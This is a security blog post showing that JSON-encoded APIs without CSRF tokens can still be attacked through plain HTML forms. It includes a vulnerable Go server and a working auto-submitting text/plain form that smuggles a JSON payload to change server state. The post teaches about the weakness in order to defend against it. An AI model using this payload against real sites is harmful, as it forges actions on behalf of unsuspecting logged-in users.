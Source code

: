 ```yaml
---
layout: post
title: "Posting JSON with an HTML Form"
category: Security
date: 2016-08-24
tags:
  - Hacks
  - Web Security
kramdown: true
---
```


A coworker and I were looking at an application today that, like so many other
modern web applications, offers a RESTful API with JSON being used for
serialization of requests/responses.  She noted that the application didn't
include any sort of CSRF token and didn't seem to use any of the headers
(X-Requested-With, Referer, Origin, etc.) as a "poor man's CSRF token", but
since it was posting JSON, was it really vulnerable to CSRF?  **Yes, yes,
definitely yes!**

The idea that the use of a particular encoding is a security boundary is, at
worst, a completely wrong notion of security, and at best, a stopgap until W3C,
browser vendors, or a clever attacker gets hold of your API.  Let's examine JSON
encoding as a protection against CSRF and demonstrate a mini-PoC.

### The Application

We have a basic application written in Go.  Authentication checking is elided
for post size, but this is *not* just an unauthenticated endpoint.

~~~ go
package main

import (
	"encoding/json"
	"fmt"
	"net/http"
)

type Secrets struct {
	Secret int
}

var storage Secrets

func handler(w http.ResponseWriter, r *http.Request) {
	if r.Method == "POST" {
		json.NewDecoder(r.Body).Decode(&storage)
	}
	fmt.Fprintf(w, "The secret is %d", storage.Secret)
}

func main() {
	http.HandleFunc("/", handler)
	http.ListenAndServe(":8080", nil)
}
~~~

As you can see, it basically serves a secret number that can be updated via
HTTP POST of a JSON object.  If we attempt a URL-encoded or multipart POST, the
JSON decoding fails miserably and the secret remains unchanged.  We must POST
JSON in order to get the secret value changed.

### Exploring Options

So let's explore our options here.  The site can locally use AJAX via the
XMLHTTPRequest API, but due to the [Same-Origin
Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy),
an attacker's site cannot use this.  For most CSRF, the way to get around this
is plain HTML forms, since form submission is not subject to the Same-Origin
Policy.  The W3C had a [draft specification for JSON
forms](https://www.w3.org/TR/html-json-forms/), but that has been abandoned
since late 2015, and isn't supported in any browsers.  There are probably some
techniques that can make use of Flash or other browser plugins (aren't there
always?) but it can even be done with basic forms, it just takes a little work.

### JSON in Forms

Normally, if we try to POST JSON as, say, a form value, it ends up being URL encoded,
not to mention including the field name.

~~~ html
<form method='POST'>
  <input name='json' value='{"foo": "bar"}'>
  <input type='submit'>
</form>
~~~

Results in a POST body of:

~~~
json=%7B%22foo%22%3A+%22bar%22%7D
~~~

Good luck decoding that as JSON!

Doing it as the form field name doesn't get any better.

~~~
%7B%22foo%22%3A+%22bar%22%7D=value
~~~

It turns out you can set the enctype of your form to `text/plain` and avoid the
URL encoding on the form data.  At this point, you'll get something like:

~~~
json={"foo": "bar"}
~~~

Unfortunately, we still have to contend with the form field name and the
separator (`=`).  This is a simple matter of splitting our payload across both
the field name and value, and sticking the equals sign in an unused field.  (Or
you can use it as part of your payload if you need one.)

### Putting it All Together

~~~ html
<body onload='document.forms[0].submit()'>
  <form method='POST' enctype='text/plain'>
    <input name='{"secret": 1337, "trash": "' value='"}'>
  </form>
</body>
~~~

This results in a request body of:

~~~
{"secret": 1337, "trash": "="}
~~~

This parses just fine and updates our secret!
